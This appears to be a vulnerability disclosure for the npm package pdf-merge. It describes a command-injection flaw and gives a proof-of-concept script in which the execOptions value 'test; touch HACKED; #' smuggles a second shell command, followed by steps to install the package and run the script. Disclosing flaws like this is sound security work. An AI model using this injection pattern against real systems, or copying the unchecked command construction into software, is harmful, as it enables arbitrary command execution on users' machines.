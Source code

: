 # :bug: Description

The issue occurs because a `user input` is formatted inside a `command` that will be executed without any checklading to `arbitrary command injection`


# :fire: POC

1. Create the following PoC file:

```js
// poc.js
const PDFMerge = require('pdf-merge');
 
const files = [
    `1.pdf`,
    `2.pdf`,
    {file: `protected.pdf`, inputPw: '_SeCrEt_'}
];
 
//Buffer (Default)
PDFMerge(files, {execOptions: 'test; touch HACKED; #'})

```
2. Check there aren't files called `HACKED` 
3. Execute the following commands in another terminal:

```bash
npm i pdf-merge # Install affected module
node poc.js #  Run the PoC
```
4. Recheck the files: now `HACKED` has been created :)
